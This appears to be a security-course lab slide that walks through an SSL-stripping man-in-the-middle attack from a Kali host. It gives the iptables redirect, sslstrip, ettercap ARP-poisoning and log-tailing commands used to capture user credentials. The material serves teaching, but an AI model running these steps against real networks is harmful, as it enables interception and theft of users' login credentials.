

# Actions on Objectives- SSLStip
Reading SSL transferred credentials is an  important objective for many attackers.
In this lab we try to strip a SSL connection to find
user credentials!
•	On Kali (192.168.248.134)
# echo "1" > /proc/sys/net/ipv4/ip_forward
# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -  j REDIRECT --to-port 8080
# iptables -t nat –L
# sslstrip -a -l 8080 -k
On Kali (192.168.248.134) in a new terminal
# ettercap -TqM arp:remote
On Kali (192.168.248.134) in a new terminal
# tail -f sslstrip.log

BORROWED